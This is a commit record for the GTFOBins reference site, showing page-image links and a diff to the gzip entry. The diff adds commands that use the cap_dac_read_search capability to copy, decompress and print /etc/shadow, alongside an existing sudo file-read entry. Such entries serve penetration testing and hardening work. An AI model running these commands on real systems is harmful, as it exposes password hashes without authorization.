

Before and after one commit to GTFOBins/GTFOBins.github.io, a Jekyll site: the page built from _gtfobins/gzip.md, in a window 1280 px wide. Shown: the whole page at 81% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; before the commit the page ends 1060 px from its top, so only the background shows below that.

Commit message:
Update gzip.md
Adding capabilities for cap_dac_read_search

```diff
--- a/_gtfobins/gzip.md
+++ b/_gtfobins/gzip.md
@@ -16,4 +16,11 @@ functions:
     - code: |
         LFILE=file_to_read
         sudo gzip -f $LFILE -t
+  capabilities:
+    - description: If cap_dac_read_search is set. Run ``getcap -r / 2>/dev/null`` to confirm ``/usr/bin/gzip cap_dac_read_search=ep``
+      code: |
+        gzip can read any file:
+        gzip -c /etc/shadow > /tmp/shadow.gz
+        gzip -d /tmp/shadow.gz
+        cat /tmp/shadow
 ---
```
